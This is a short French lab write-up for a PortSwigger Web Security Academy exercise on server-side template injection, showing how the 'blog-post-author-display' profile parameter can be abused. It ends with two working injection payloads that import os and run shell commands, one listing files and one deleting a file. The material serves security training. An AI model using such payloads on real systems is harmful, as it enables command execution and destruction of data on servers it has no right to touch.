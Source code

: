 # Lab

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context

## Payload

Sur la page de profil, on peut choisir quelle information on affiche quand on poste un commentaire.

Par défaut, on affiche le nom de l'utilisateur qui a posté le commentaire.

Une requete est envoyée avec `blog-post-author-display=user.name`

On peut changer la valeur de `blog-post-author-display` pour afficher autre chose.

`blog-post-author-display='r'}}{% import os %}{{os.system('ls -al')`

`blog-post-author-display='r'}}{% import os %}{{os.system('rm morale.txt')`
